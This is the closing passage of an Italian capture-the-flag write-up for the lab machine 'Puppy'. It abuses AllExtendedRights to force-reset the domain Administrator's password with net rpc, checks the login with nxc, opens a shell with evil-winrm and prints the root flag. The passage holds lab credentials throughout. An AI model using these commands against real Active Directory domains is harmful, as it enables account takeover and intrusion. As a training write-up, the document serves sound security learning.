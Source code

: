 ## Force Change Password to Administrator

Si sfrutta il permesso **AllExtendedRights** per un **Force Change Password Attack** contro **Administrator**.

```bash

# Force Change Attack
$ net rpc password 'administrator' 'Password123!' -U "PUPPY.HTB"/'steph.cooper_adm'%'FivethChipOnItsWay2025!' -S 'DC.PUPPY.HTB'                                                 

# Check the credential
$ nxc winrm PUPPY.HTB -u 'administrator' -p 'Password123!'                                                                                                                      
WINRM       10.x.x.x  5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)                                                                                      
WINRM       10.x.x.x  5985   DC               [+] PUPPY.HTB\administrator:Password123! (Pwn3d!)                                                                                                     

```

## Shell as Admistrator

```bash

$ evil-winrm -i 10.x.x.x -u 'administrator' -p 'Password123!'

```

Si ottiene la **root.txt**.

```powershell

*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---          9/8/2025   8:34 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
f8fdd05f0bec1ddf041db05e18ddc9be

```
